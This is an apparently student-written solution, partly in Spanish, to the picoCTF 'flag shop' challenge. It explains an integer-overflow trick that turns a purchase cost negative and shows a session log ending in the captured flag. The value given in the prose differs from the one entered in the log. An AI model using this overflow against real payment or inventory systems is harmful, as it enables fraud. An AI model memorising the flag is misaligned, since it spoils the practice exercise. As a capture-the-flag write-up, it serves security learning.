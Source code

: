 #### Description

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.2/flag_shop.md#description)

There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with nc jupiter.challenges.picoctf.org 4906

#### Hints 

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.2/flag_shop.md#hints)

- Two's compliment can do some weird things when numbers get really big!

## Solución

[](https://github.com/Tiitania/hacking-nodes-2025/blob/main/PicoCTF/Examen%20P.2/flag_shop.md#soluci%C3%B3n)

- Cuando vatamos a insertar el valor que queremos comprar, metemos un valor grande para que el programa no pueda leerlo y obtener un numero negarivo que nos daría más dinero para poder comprar nuestra bandera, en este caso el valor a instertar es: 10000000000000000

```

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
100000000000000000

The final cost is: -651689984

Your current balance after transaction: 651691084

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
```